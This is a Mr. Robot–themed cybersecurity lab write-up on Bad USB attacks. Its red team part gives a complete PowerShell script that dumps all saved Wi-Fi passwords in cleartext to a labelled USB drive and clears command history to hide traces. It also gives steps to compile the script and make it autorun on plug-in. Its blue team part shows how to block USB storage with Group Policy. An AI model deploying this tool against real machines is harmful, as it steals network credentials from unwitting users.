# Mr Robot Exercise: Bad USB Attack

## Summary:

In this part of the exercise the Mr. Robot (Red Team) tasks are to conduct a Bad USB attack. In the scenario FSociety convinces Angela to plugin the USB Rubber Ducky (Bad USB) into a system inside of ECorp and steal WiFi passwords. We will create our own Bad USB with a normal USB flash drive.

As Elliot (Blue Team) we will discuss and demonstrate mitigation and prevention procedures for Bad USB attacks. We will specifically set up a Group Policy that restricts USB access. 

## Lab Set UP

Requirement: 1 USB Flash Drive (any size)

1. Format USB flash drive. Name it “FSOCIETY”
2. Download and install “SamLogic USB AutoRun Creator” from the link below.

[](https://en.softonic.com/download/usb-autorun-creator/windows/post-download)

1. Copy and paste the code below into a .txt file and save it as FSOCIETY.ps1 and save it to your desktop.

```go
# Define the volume label you're looking for
$targetLabel = "FSOCIETY"

# Find the drive letter of the USB drive with the specified label
$volume = Get-Volume | Where-Object { $_.FileSystemLabel -eq $targetLabel }

if ($volume) {
    $driveLetter = $volume.DriveLetter + ":\"
    $usbPath = "$driveLetter$env:username.txt"
    $baseDestinationDir = $driveLetter
    Write-Output "Drive letter found: $driveLetter"
} else {
    Write-Error "Drive with label '$targetLabel' not found."
    exit
}

# Initialize an array to store all Wi-Fi profiles and their passwords
$wifiData = @()

# Get all Wi-Fi profiles
$profiles = netsh wlan show profile | Select-String '(?<=All User Profile\s+:\s).+'

foreach ($profile in $profiles) {
    $wlan = $profile.Matches.Value.Trim()

    # Get the password for the current Wi-Fi profile
    $passw = netsh wlan show profile $wlan key=clear | Select-String '(?<=Key Content\s+:\s).+'
    $password = if ($passw) { $passw.Matches.Value.Trim() } else { "No Password Found" }

    # Create a custom object with the profile and password information
    $wifiData += [PSCustomObject]@{
        Username = $env:username
        Profile  = $wlan
        Password = $password
    }
}

# Convert the array of Wi-Fi data to JSON
$jsonBody = $wifiData | ConvertTo-Json -Depth 3

# Save the JSON data to a file on the USB drive
$jsonBody | Out-File -FilePath $usbPath -Encoding UTF8

# Clear the PowerShell command history
Clear-History

exit
```

---

This PowerShell script is designed to perform the following actions:

1. **Identify a USB Drive by Volume Label**:
    - The script looks for a USB drive with the volume label “FSOCIETY.”
    - If it finds a drive with this label, it identifies the drive letter (e.g., `E:\`) and stores it in the `$driveLetter` variable.
    - It then constructs a path to save a file on that USB drive (`$usbPath`), where `username.txt` is the filename that includes the current username.
2. **Extract Wi-Fi Profile and Password Information**:
    - It initializes an array (`$wifiData`) to hold Wi-Fi profile data.
    - Using the `netsh wlan show profile` command, it retrieves all saved Wi-Fi profile names on the device and stores them in `$profiles`.
    - For each Wi-Fi profile:
        - It extracts the Wi-Fi profile name.
        - It attempts to retrieve the Wi-Fi password by using the `netsh wlan show profile [profile name] key=clear` command. If the profile has a password, it extracts it; if no password exists, it sets it as “No Password Found.”
        - It then creates a custom object containing the username, Wi-Fi profile name, and password and adds this object to `$wifiData`.
3. **Convert Wi-Fi Data to JSON Format**:
    - The script converts the `$wifiData` array to JSON format using `ConvertTo-Json`, which allows for structured data storage.
4. **Save JSON Data to the USB Drive**:
    - It writes the JSON-formatted Wi-Fi data to a file (`username.txt`) located on the specified USB drive.
5. **Clear Command History and Exit**:
    - Finally, the script clears the PowerShell command history with `Clear-History` to remove any trace of the commands used.
    - The script then exits.

Summary of What This Script Does:

- It finds a specific USB drive by label, gathers all saved Wi-Fi profiles and their passwords on the machine, stores this data in JSON format, and saves it as a file on the USB drive. The command history is cleared afterward to hide traces of the activity.

---

1. Install the PowerShell module “ps2exe” this converts .ps1 files to .exe files.

```go
Install-Module ps2exe
```



1. Navigate to your Desktop and convert FSOCIETY.ps1 to FSOCIETY.exe with the following command.

```go
 Invoke-PS2EXE FSOCIETY.ps1 FSOCIETY.exe
```

1. Open Sam Logic USB Autorun Creator and select fsociety.exe as the program to run and select the appropriate drive letter for your newly formatted USB flash drive and select create.



1. When completed disconnect the USB drive. The USB drive will now automatically collect all WiFi passwords stored on the system and write them to a .txt file every time the USB is plugged into a system.
2. Reconnect the USB. After a few seconds open the flash drive. There should be a .txt file named after the current user. This file includes the WiFi network passwords.



We just created our own Rubber Ducky (Bad USB). The commercial Rubber Ducky (which costs about $70) has additional features, but this is a cost effective alternative. 

Two other optional exercises include creating a Rubber Ducky with a Raspberry Pi Pico.

[DIY Rubber Ducky: Raspberry Pi Pico](https://github.com/CodeLife01/Bad-USB-Attack) 


## Background

In the world of cybersecurity, threats evolve continuously, with attackers finding new ways to exploit seemingly innocent devices. One such threat is the **Bad USB attack**, which transforms a common, often trusted device—the USB stick—into a powerful cyber weapon. In this lesson, we’ll delve into the fundamentals of Bad USB attacks, explore real-world cases, and provide a detailed look at how to detect and mitigate these attacks.

### What is a Bad USB Attack?

Bad USB attacks exploit the firmware of USB devices to carry out malicious actions when plugged into a computer. USB devices, including flash drives, keyboards, and network adapters, all rely on firmware—software that controls the device’s function. In a Bad USB attack, this firmware is reprogrammed to make the USB act in unexpected ways.

For instance, a USB drive can be reprogrammed to act like a keyboard that automatically types commands, delivering a malicious payload or opening a backdoor without the user’s knowledge. Alternatively, a Bad USB might emulate a network adapter to redirect network traffic or serve as a rogue access point.

### How Do Bad USB Attacks Work?

Bad USB attacks typically leverage the following tactics:

1. **Firmware Reprogramming**: Attackers reprogram the firmware to change the USB’s function. This reprogramming allows the device to emulate trusted devices, bypassing many standard security controls.
2. **Emulating Trusted Devices**: A USB might impersonate a keyboard to type commands, a network adapter to intercept traffic, or a storage device containing malware disguised as legitimate files.
3. **Payload Delivery**: When connected, the USB can immediately begin executing a payload that performs a range of actions, from stealing data to installing malware.

**Types of Bad USB Attacks:**

- **Keyboard Emulation**: A USB that pretends to be a keyboard can type commands autonomously, launching applications, opening system settings, or executing scripts.
- **Network Interface Emulation**: Acting as a network adapter, the USB device could intercept or redirect internet traffic, compromising data and allowing remote access.
- **Mass Storage Device Exploits**: A USB configured as a storage device might contain hidden scripts or malware that activate once connected.

### Real-World Examples of Bad USB Attacks

**1. Stuxnet Attack**

- **Overview**: Stuxnet is one of the most notorious examples of USB exploitation. This malware targeted Iran’s nuclear facilities, using USB drives to spread across air-gapped systems.
- **Impact**: Stuxnet disrupted industrial equipment, such as centrifuges, demonstrating that USB devices could be weaponized to penetrate isolated, highly secure networks.
- **Lesson Learned**: Stuxnet highlights the risks posed by USB devices, especially in environments relying on network isolation for security.

**2. Security Conference Demonstrations**

- **Overview**: Researchers at cybersecurity conferences have demonstrated Bad USB attacks by distributing USB sticks that simulate malicious behavior.
- **Impact**: These demonstrations help security professionals understand how easily a reprogrammed USB could execute harmful commands on unsuspecting machines.

**3. Targeted USB Drops**

- **Overview**: Attackers often leave USB sticks in public areas like parking lots or lobbies, knowing that someone will likely pick up and connect the device out of curiosity.
- **Impact**: These social engineering attacks gain access to internal networks, exploiting the trust users place in USB devices.

# Rubber Ducky

The USB Rubber Ducky is a versatile penetration testing device designed to emulate a USB keyboard, allowing it to execute predefined keystroke sequences quickly and covertly on a target computer. Created by Hak5, this tool is popular among cybersecurity professionals, red teamers, and ethical hackers due to its efficiency in performing automated attacks, often through social engineering and USB HID (Human Interface Device) injection.

[USB Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky)

### Key Features

1. **Keyboard Emulation**:
    - The Rubber Ducky appears as a standard HID keyboard to the target system, making it effective even against systems with USB device restrictions that still allow keyboard inputs.
    - When plugged into a computer, it can execute a payload of pre-programmed keystrokes at speeds far faster than a human could type, bypassing many security checks.
2. **Ducky Script**:
    - The USB Rubber Ducky is programmed using its custom scripting language, **Ducky Script**, which is simple and efficient for designing payloads.
    - Ducky Script consists of basic commands like `STRING`, `DELAY`, and `ENTER`, allowing users to control typing and timing.
    - Payloads can be tailored to specific operating systems, applications, or even custom sequences to avoid detection.
3. **Cross-Platform Compatibility**:
    - It works on major operating systems, including Windows, macOS, Linux, and Android, making it versatile for diverse environments.
    - Since it is recognized as a keyboard, it bypasses restrictions for specific devices, giving it a broader reach in various system environments.
4. **MicroSD Card for Payload Storage**:
    - The USB Rubber Ducky has a slot for a microSD card where payloads are stored. Users can quickly change payloads by swapping out the SD card.
    - This feature allows for rapid deployment and easy customization during penetration tests, enabling multiple attack scenarios in a short time frame.
5. **Plug-and-Play Operation**:
    - Once a payload is loaded, the Rubber Ducky can be used simply by plugging it into the target system, where it immediately begins executing commands.
    - This makes it an ideal device for quick-access scenarios or when physical presence at the target location is limited.
6. **Payload Versatility**:
    - Users can create a wide range of payloads, from simple keystroke logging or data exfiltration to complex multi-stage attacks.
    - Common payloads include creating backdoors, downloading malware, collecting credentials, or disabling system security settings.

### Common Uses in Penetration Testing and Security Audits

1. **Credential Harvesting**:
    - The Rubber Ducky can be programmed to launch a script that quickly opens a command prompt or powershell, extracts credentials, and sends them back to the attacker or saves them locally.
2. **Backdoor Installation**:
    - A payload can be written to download and install remote access tools, giving the tester long-term access to the machine after the Rubber Ducky has been removed.
3. **Security Testing for HID Injection**:
    - The Rubber Ducky is often used to test a system’s defenses against USB HID attacks and validate security awareness programs, highlighting the risks associated with plugging in unknown USB devices.
4. **System Manipulation and Information Gathering**:
    - Scripts can be written to gather system information (e.g., IP configuration, user accounts, network connections) and send it back to a remote server, providing intelligence on the target network.
5. **Multi-Platform Attacks**:
    - Because of its compatibility with multiple operating systems, a single Rubber Ducky can be configured to detect the operating system and execute OS-specific commands, adapting on the fly.

### Rubber Ducky Limitations

While powerful, the USB Rubber Ducky has some limitations:

- **Physical Access Required**: To execute a payload, physical access to the target machine is necessary.
- **Dependent on Unlocked Workstations**: It can only deliver payloads on machines where the user is logged in and the workstation is unlocked.
- **Detection by Advanced Security Systems**: Some security solutions can detect unusual keystroke patterns and behavior generated by the device, potentially flagging or blocking its activity.

# Detection and Defense Mechanisms for Bad USB

Preventing Bad USB attacks requires a combination of technical measures, physical security, and user awareness. Here are several ways to safeguard against these threats:

**1. USB Device Policy Management**

- **Group Policies**: Use Group Policies on corporate systems to disable USB ports or restrict device types allowed to connect.
- **Endpoint Detection and Response (EDR)**: Deploy EDR solutions that monitor and alert when unusual USB activity is detected.

**2. Hardware Security Controls**

- **USB Port Blockers**: Use physical blockers to prevent unauthorized access to USB ports.
- **Authorized USB Devices Only**: Implement device whitelisting to ensure only specific, trusted USB devices can connect to endpoints.

**3. Employee Training and Awareness**

- **Training**: Educate employees about the risks of unknown USB devices, encouraging them to avoid plugging in untrusted devices.
- **USB Drop Simulations**: Conduct periodic exercises to test employee responses to finding USB devices in common areas, reinforcing awareness.

**4. Monitoring for Unusual Activity**

- **Log Analysis**: Review system logs for unexpected commands or USB-related events that might indicate malicious behavior.
- **Network Behavior Monitoring**: Check for abnormal network activity that could indicate USB-based network emulation.

---

### Mitigating Bad USB Attacks

Prevention is key to protecting against Bad USB attacks. Here are some additional measures to minimize risk:

**1. Device Control Software**

- **Description**: Solutions like device control software allow administrators to enforce USB access policies, restrict certain device types, or require authentication before access.
- **Advantages**: This control is particularly useful in environments with high security standards, such as finance or healthcare, where data integrity is crucial.

**2. Firmware Security Measures**

- **Non-Reprogrammable USBs**: Use USBs with firmware that cannot be modified to prevent malicious reprogramming.
- **Encrypted USB Devices**: Encrypted USBs offer additional security, as their firmware and data are locked against unauthorized access.

**3. USB Usage Policies**

- **Corporate Policies**: Develop and enforce strict policies to minimize the use of USBs, especially in sensitive areas.
- **Alternative Solutions**: Promote secure alternatives, like cloud-based storage, encrypted file transfer, or secure network drives, reducing the need for USB devices altogether.

---

# Blue Team Task

Create a GPO to disable USB Access.

On the Domain Controller, open the Group Policy Management Console (GPMC).



Right click on Group Policy Objects and click on New.



Provide an appropriate name to the GPO (for example, Disable USB Access) and click OK.



Right click on the newly created group policy (Disable USB Access) and click on Edit.



This opens the Group Policy Management Editor.

In the console tree, navigate to User Configuration > Policies > Administrative Templates > System > Removable Storage Access.



The Removable Storage Access section contains various options for different types of storage devices. Right click on the All Removable Storage classes: Deny all access setting and click on Edit.



In the dialog box that opens, select the Enable option to block all access to USB devices. Click on Apply and then click OK.



Locate the organizational unit (OU) containing the users for whom USB access is to be disabled. Note that the HQs Users only includes pprice and tcolby. Right click on the required organizational unit and select the Link an existing GPO option.



Select the required GPO (in this case, Disable USB Access) from the list of available policies and click OK.

